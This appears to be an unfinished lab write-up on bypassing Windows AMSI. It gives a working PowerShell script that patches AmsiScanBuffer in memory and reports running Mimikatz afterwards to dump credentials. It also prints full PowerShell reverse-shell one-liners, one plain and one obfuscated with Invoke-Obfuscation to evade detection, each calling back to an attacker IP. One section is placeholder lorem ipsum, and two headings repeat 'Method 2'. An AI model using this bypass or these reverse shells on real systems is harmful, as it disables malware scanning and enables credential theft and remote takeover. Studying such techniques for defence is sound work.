




## Method 2 : Disabling AMSI - Memory Patching Method

The following method completely disables AMSI by using a memory patch. We were able to test that it is an effective method.

Note : This bypass disables AMSI only for the terminal it was executed on.

### Why this particular method works 


To understand why the technique works, we must first understand AMSI. AMSI protects PowerShell from malicious strings/scripts by loading a DLL (**amsi.dll**) into powershell's memory space each time a powershell process is started.

Whenever any command is entered, AMSI submits the content to Windows Defender (or other AV engines). If the AV engine finds that the content may be malicious, AMSI instructs powershell to not run the code.

The main function within **amsi.dll** responsible for checking powershell strings for malicious content is **AmsiScanBuffer()**. 

Judging by the result of the content scan, **AmsiScanBuffer** returns the following result values : 
```
AMSI_RESULT_CLEAN = 0, # no detection found
AMSI_RESULT_NOT_DETECTED = 1, # no detection found, but might change in the future
AMSI_RESULT_BLOCKED_BY_ADMIN_START = 16384, # Admin policy blocked this content
AMSI_RESULT_BLOCKED_BY_ADMIN_END = 20479, # Admin policy blocked this content
AMSI_RESULT_DETECTED = 32768 # Detection found. Content is considered malware
```
basically : 0 means no malware, 32768 means malware.


In addition, when we disassemble **AmsiScanBuffer**, we can see the following near the end of the function.



First, it performs a series of validations. If the results of the validation are not as expected, it land in the block on the right, which has the instructions  ```mov eax 0x800700057``` . **0x80070057** actually correlates to the error code **E_INVALIDARG**. Otherwise, if it passes the validations, it goes through the actual scanning for malicious content, as depicted by the block on the left.

The function then ends, and the powershell command a user typed is then executed depending on whether it passed the scanning **or if an invalid argument error occured**.

Therefore, if we can force **AmsiScanBuffer()** to jump to the block on the right early on, we can easily bypass AMSI. This is exactly what the script below seeks to do. 

```powershell
$pinvoke_obj = @"
using System;
using System.Runtime.InteropServices;

public class WinApi {
	
	[DllImport("kernel32")]
	public static extern IntPtr LoadLibrary(string name);
	
	[DllImport("kernel32")]
	public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
	
	[DllImport("kernel32")]
	public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out int lpflOldProtect);
	
}
"@
Add-Type $pinvoke_obj
$amsiDll = [WinApi]::LoadLibrary("ams"+"i.dll")
$funcAddr = [WinApi]::GetProcAddress($amsiDll, "Ams"+"iScanB"+"uffer")
$patch = [Byte[]](0xc3,0x80,0x07,0x00,0x57,0xb8)
$out = 0
[WinApi]::VirtualProtect($funcAddr, [uint32]$patch.Length, 0x40, [ref] $out)
[System.Runtime.InteropServices.Marshal]::Copy($patch, 0, $funcAddr, $patch.Length)
[WinApi]::VirtualProtect($funcAddr, [uint32]$patch.Length, $out, [ref] $null)
```

It first retrieves the value of the address space allocated to **amsi.dll** and then extracts the address of **AmsiScanBuffer()**. The script then makes the address space writable, and patches beginning of the space with the following bytes :
```
(0xc3,0x80,0x07,0x00,0x57,0xb8)
```
These bytes correspond to the instruction (in little endian)
```
mov eax, 0x80070057
ret
```
The **ret** instruction is used to exit the function. If it worked correctly, we should be able to run any powershell command without any issues.

Alternatively, since we established earlier on that **AmsiScanBuffer** returning 0 means that no detection was found, we can also adjust the script such that the function prematurely returns 0, using an instruction like :
```
sub eax,eax 
ret
```
This will still allow us to bypass AMSI.


### Validating that the method works

However, as the original source code has been out for some time (2022), Windows Defender has already blocked it from running.



Thus, we first obfuscate the code. After obfuscation using the same tool in the first test (Invoke-Obfuscation), we managed to run the script successfully without any error : 


The screenshot below shows the output when we entered the string "Invoke-Mimikatz" before our bypass. As expected, AMSI flags it as malicious content.


However, after the memory patch, we able to use Mimikatz with no error and dump credentials.


We were also able to freely run other powershell commands (such as reverse shells) without the need of obfuscating them.


References : 

https://aidenpearce369.github.io/offsec/AMSI-Memory-Bypass/ 

https://www.cyberark.com/resources/threat-research-blog/amsi-bypass-redux

https://rastamouse.me/memory-patching-amsi-bypass/

https://fluidattacks.com/blog/amsi-bypass/


## Method 2 : Disabling AMSI - AMSI Killer


Lorem ipsum dolor sit amet, consectetur adipiscing elit. Sed congue laoreet venenatis. Nam rutrum urna aliquam, pharetra metus vitae, varius dolor. Vestibulum ante ipsum primis in faucibus orci luctus et ultrices posuere cubilia curae; Aenean placerat iaculis laoreet. Vestibulum id velit et nulla interdum pretium vitae nec justo. Duis congue quam dolor, auctor feugiat mi feugiat eu. Fusce ac felis elit. Proin molestie tellus id turpis convallis vehicula. Nullam non venenatis leo. Aliquam porttitor elementum vestibulum. Sed scelerisque lacus dui, sed vehicula ante auctor eget. Vestibulum sagittis, est ut euismod efficitur, arcu ex finibus quam, vitae dapibus risus purus ac odio. Nam sodales lorem ac accumsan consectetur. In sodales bibendum turpis, eu laoreet urna mollis interdum.

Nullam hendrerit consequat imperdiet. Integer bibendum cursus tincidunt. Duis venenatis gravida faucibus. In hendrerit ante quis lorem condimentum, in pulvinar diam euismod. Nullam vehicula, velit et posuere malesuada, ipsum velit blandit justo, tincidunt rutrum ipsum lectus varius est. In eget viverra arcu, vel accumsan nibh. Ut bibendum malesuada ipsum, eu euismod turpis. Praesent aliquam lorem at neque sodales porttitor. Aenean at placerat lectus. Duis sed tellus id eros ultrices fermentum. Nunc ut orci nec neque lobortis ultrices ac et arcu. Integer et ipsum nulla. Duis placerat mi mauris, nec vulputate metus scelerisque a. Donec congue purus et turpis laoreet eleifend.


## Method ? : Obfuscation of commands

First, it was verified that the following powershell reverse shell command would be detected by AMSI.

```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.50.18',9999);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

As shown in the screenshot below, AMSI managed to detect the command as malicious and blocked it.


To obfuscate the command, the tool **Invoke Obfuscation** (https://github.com/danielbohannon/Invoke-Obfuscation) was used. 

After setting the "ScriptBlock" as our reverse shell command, we have the option to choose an encoding option


We discovered through testing and research that the most effective obfuscation method is **AST**. The regular encoding options, which include encoding the command in ASCII, Binary, and the encryption of the entire command as SecureString, all seem to get detected by AMSI pretty easily.

After encoding with the AST option, we get the following output : 

```
Set-Variable -Name client -Value (New-Object System.Net.Sockets.TCPClient('192.168.25.134',4444));Set-Variable -Name stream -Value ($client.GetStream());[byte[]]$bytes = 0..65535|%{0};while((Set-Variable -Name i -Value ($stream.Read($bytes, 0, $bytes.Length))) -ne 0){;Set-Variable -Name data -Value ((New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i));Set-Variable -Name sendback -Value (iex $data 2>&1 | Out-String );Set-Variable -Name sendback2 -Value ($sendback + 'PS ' + (pwd).Path + '> ');Set-Variable -Name sendbyte -Value (([text.encoding]::ASCII).GetBytes($sendback2));$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()  
```

After executing the command on the victim machine, we can see that it did not get detected/blocked by AMSI : 



Back in our attacker machine (kali), we can verify that the reverse shell connection was successful.



However, this method would not be very helpful if the attacker had to run multiple commands. That would mean each command would have to be repeatedly encoded using the Invoke-Obfuscation tool. Thus, this method is better if used to execute one command only (e.g Invoke-Mimikatz)

The better option would be disabling AMSI entirely.